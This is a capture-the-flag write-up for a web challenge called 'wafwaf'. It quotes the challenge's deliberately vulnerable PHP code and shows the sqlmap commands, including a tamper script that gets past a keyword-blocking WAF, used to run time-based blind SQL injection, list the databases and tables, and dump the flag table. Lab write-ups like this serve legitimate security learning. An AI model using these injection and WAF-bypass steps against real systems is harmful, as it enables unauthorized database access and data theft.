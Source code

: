 # wafwaf

## Keynotes

* sqlmap POST request with payload
* sqlmap with tamper and technique
* custom waf bypassing

## Tracking

1. Opened the URL and found a PHP script which appears to respond to POST requests, even though I was not sure that this was actually the script that can be reached by calling that endpoint

```php
<?php error_reporting(0);
require 'config.php';

class db extends Connection {
    public function waf($s) {
        if (preg_match_all('/'. 
	        	implode('|', array(
	            '[' . preg_quote("(*<=>|'&-@") . ']',
	            'select', 'and', 'or', 'if', 'by', 'from', 
	            'where', 'as', 'is', 'in', 'not', 'having'
	        	))
        	 . '/i', $s, $matches)) die(var_dump($matches[0]));
        return json_decode($s);
    }

    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

$db = new db();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $obj = $db->waf(file_get_contents('php://input'));
    $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
} else {
    die(highlight_file(FILE, 1));
}
?>
```

2. Executed nmap & dirb, but couldn't find anything else

3. Started looking into the code and understood how it works - I have to find a way to bypass the waf filter to be able to inject my payload into the sql query which is vulnerable

4. Observed that the payload should, actually, be in a JSON format and the field that will be used for injection should be placed under the "user" attribute

5. Created a request file for sqlmap and ran it with the command "sqlmap -r input", but nothing was found 😞

```
POST / HTTP/1.1
Host: 178.128.35.180:30023

{
	"user":"test"
}
```

6. Started looking at hints and read something about built-in tampers in sqlmap - after many more hints and tries, I settled for the **charunicodeescape** temper - and the injection worked using a time based blind attack and identified the dbms as mysql

```
sqlmap -r input --tamper=charunicodeescape
```

7. Learned more about charunicodeescape by looking at its [source code](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py)

8. Observing the type of attack, I thought about optimizing the command a little bit while starting to map the database structure, because the time based attacks are slow by definition (post-solving: yep, it took a while to execute all the commands)

```
sqlmap -r input --tamper=charunicodeescape --dbms=mysql --technique=T --dbs
```

9. Running the previous query returned 5 databases: information_schema, db_m8452, performance_schema, sys, my_sql

10. Started running queries on the only database that sticks out: db_m8452, and obtained 2 tables: definitely_not_a_flag, notes

```
sqlmap -r input --tamper=charunicodeescape --dbms=mysql --technique=T -D db_m8452 --tables
```

11. Started looking in the table that sticks out the most and obtained the flag:

```
sqlmap -r input --tamper=charunicodeescape --dbms=mysql --technique=T -D db_m8452 -T definitely_not_a_flag --dump
```